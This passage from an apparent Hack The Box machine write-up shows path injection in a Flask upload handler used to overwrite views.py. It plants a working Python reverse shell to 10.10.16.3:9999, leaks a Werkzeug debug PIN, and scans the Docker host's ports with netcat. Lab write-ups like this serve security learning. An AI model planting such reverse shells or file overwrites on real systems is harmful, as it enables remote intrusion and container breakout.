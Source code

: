 ## Uploading a reverse shell

Actually the path injection works on the upload function too:

```python
file_name = get_file_name(f.filename)
file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
f.save(file_path)
```

So we can just overwrite files and plant a reverse shell into `/app/app/views.py`:

```python
from os import dup2 as o;
from socket import socket as b;
from subprocess import call as p;

s = b();
s.connect(("10.10.16.3",9999));
f = s.fileno;
o(f(),0);
o(f(),1);
o(f(),2);
p(["/bin/sh","-i"]);
```

And also leak the information required for the PIN:

![][pin-leak]

Which leads to the PIN:

> `142-736-817`

The machine ID was actually the concatenation of `/proc/sys/kernel/random/boot_id` and `/proc/self/cgroup`

## Breaking out of the container

Inside the container, the filtered port 3000 from earlier is now open:

```shell
for p in `seq 1 65535`; do nc -znv 172.17.0.1 "$p"; done
# 172.17.0.1 (172.17.0.1:22) open
# 172.17.0.1 (172.17.0.1:80) open
# 172.17.0.1 (172.17.0.1:3000) open
# 172.17.0.1 (172.17.0.1:6000) open
# 172.17.0.1 (172.17.0.1:6001) open
# 172.17.0.1 (172.17.0.1:6002) open
# 172.17.0.1 (172.17.0.1:6003) open
# 172.17.0.1 (172.17.0.1:6004) open
# 172.17.0.1 (172.17.0.1:6005) open
# 172.17.0.1 (172.17.0.1:6006) open
# 172.17.0.1 (172.17.0.1:6007) open
```


[author-profile]: https://app.hackthebox.com/users/476556
[debug-console]: images/debug-console.png
[gitea]: images/gitea.png
[hacktricks-pin]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
[pin-leak]: images/pin-leak.png